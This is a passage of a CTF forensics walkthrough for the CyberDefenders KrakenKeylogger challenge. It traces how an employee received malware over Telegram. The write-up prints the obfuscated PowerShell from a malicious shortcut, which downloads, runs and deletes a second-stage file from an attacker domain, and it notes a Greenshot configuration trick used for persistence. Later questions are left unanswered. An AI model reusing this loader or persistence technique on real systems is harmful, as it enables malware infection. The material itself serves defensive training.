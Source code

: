# <a href="https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/">KrakenKeylogger</a>

**Platform:** CyberDefenders

**Scenario:** An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.

The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

**Category:** Endpoint Forensics

**Difficulty:** Medium

**Files:** `challenge directory`

**Tools:** `FTK Imager` `Autopsy` `Registry Explorer` `MFTECmd.exe` `Timeline Explorer`

> [FTK Imager](https://www.exterro.com/digital-forensics-software/ftk-imager) is a free data preview and imaging tool used to acquire electronic evidence in a forensically sound manner by creating copies of computer data without making changes to the original evidence.

**Note:** In this walkthrough, we will use the FlareVM to analyze the provided files. If you have not set it up yet, I highly recommend following this [malware analysis lab](https://github.com/mmhgwyjs/malware-analysis-lab/blob/main/README.md) guide for assistance with your installation.

## **Preparations**


## **Questions and Answers**

***1. What is the the web messaging app the employee used to talk to the attacker?***

\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications

![image](https://github.com/user-attachments/assets/64055a1d-a3e2-470f-b86b-38cb65425219)

telegram

![image](https://github.com/user-attachments/assets/85866de4-c737-4544-8035-b49f340e375b)


***2. What is the password for the protected ZIP file sent by the attacker to the employee?***

@1122d

![image](https://github.com/user-attachments/assets/3edfae11-f421-45b7-aa33-9018fba648fc)

***3. What domain did the attacker use to download the second stage of the malware?***

masherofmasters.cyou

![image](https://github.com/user-attachments/assets/63bd4db8-6ac7-4f51-b051-c843fc46905d)

lecmd.exe -f templet.lnk

![image](https://github.com/user-attachments/assets/e8d8a357-e98e-4382-a054-f15be12b63e1)

```
Relative Path: ..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Arguments: -ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
Icon Location: C:\Windows\System32\imageres.dll
```

certutil -hashfile templet.lnk

![image](https://github.com/user-attachments/assets/d54c5405-fb24-4238-a75b-e59f122b2bdc)

8b49368462651afa265273151a1e7d4ea19e6347

![image](https://github.com/user-attachments/assets/f248f584-9520-4fd4-bc8d-371d1f3e4938)

masherofmasters.cyou

***4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?***

jlhgfjhdflghjhuhuh

![image](https://github.com/user-attachments/assets/04777a51-a34c-4585-96d2-f58e56faafc7)

Users/OMEN/AppData/Roaming/Greenshot/Greenshot.ini

https://lolapps-project.github.io/lolapps/Desktop/greenshot/

***5. What is the complete path of the malicious file that the attacker used to achieve persistence?***

***6. What is the name of the application the attacker utilized for data exfiltration?***

***7. What is the IP address of the attacker?***
